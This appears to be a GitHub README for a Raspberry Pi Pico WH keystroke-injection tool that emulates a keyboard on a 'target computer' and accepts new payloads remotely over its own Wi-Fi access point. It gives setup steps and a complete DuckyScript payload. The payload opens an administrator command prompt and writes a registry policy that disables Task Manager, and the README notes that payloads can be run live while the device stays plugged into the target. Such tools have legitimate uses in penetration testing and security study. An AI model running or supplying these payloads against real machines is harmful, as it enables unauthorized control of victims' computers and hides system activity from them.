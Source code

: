 # Raspberry Pi Pico WH as HID for Keystroke Injection
A step-by-step guide to turn your Raspberry Pi Pico WH into a HID device. Works as a rubber ducky and you can remotely add payloads.
I have used a Raspberry pi pico wh for this project.

---
## Installation
***NOTE: To edit safely (setup mode): Use a jumper wire to connect GP0 (pin 1) to GND (pin 3) on Pico WH before plugging into your computer.***
1. Download CircuitPython UF2 file for Raspberry Pi Pico W from [CircuitPython for rpi pico](https://circuitpython.org/board/raspberry_pi_pico_w/). Download the latest release.
2. Connect Pico WH to your computer via USB while holding the `BOOTSEL` button. It appears as a drive named RPI-RP2.
3. Copy the entire "lib" folder to the root of the `CIRCUITPY` drive.
4. Copy code.py, duckyinpython.py, secrets.py webapp.py and wsgiserver.py to the root of CIRCUITPY. (edit the secrets.py accordingly for setting up the access point.)
5. Create a payload file: Open a text editor, write DuckyScript code or you can check out the payloads in this repository.
6. Save the file as payload.dd in the root of CIRCUITPY.
7. Remove the jumper. Plug Pico into target computer; it emulates a keyboard and injects the payload keystrokes.

---
## Connecting to the pico via its AP
edit the secrets.py file and change ssid of your pico and set the password. You then need to connect to the AP using the credentials.
Open a web browser and go to 198.162.4.1 (this is the default ip of the pico), here you can add or edit your payloads remotely after you plus it in to the target computer.
<img width="636" height="315" alt="image" src="https://github.com/user-attachments/assets/db497e4f-d9ef-41f6-93d0-0f195e2dd6fc" /><br>
<img width="675" height="316" alt="image" src="https://github.com/user-attachments/assets/74e0a137-c447-48ee-876b-30e73fe5f24c" /><br>


---
## Example payload
This payload here will disble the taskmanager by opening an admin terminal.
```text
REM disable task manager in windows
DELAY 1500
GUI
DELAY 1000
STRING cmd
DELAY 500
RIGHT
DELAY 500
DOWN
DELAY 1500
ENTER
DELAY 1000
LEFT
ENTER
DELAY 2000
STRING reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
DELAY 1000
ENTER
DELAY 500
STRING exit
DELAY 500
ENTER
```
Here you can change the `DELAY` time to 2 sec or other as some computers might take more time than 1 sec.<br>

---
NOTE:
This is just an example code, you can try to create your payloads and save it to the root of the rpi as an `.dd` file after completing the installation process as explained above.
Or you can use the AP of the rpi to directly run and add payloads in real time while its pluged in to the target device.
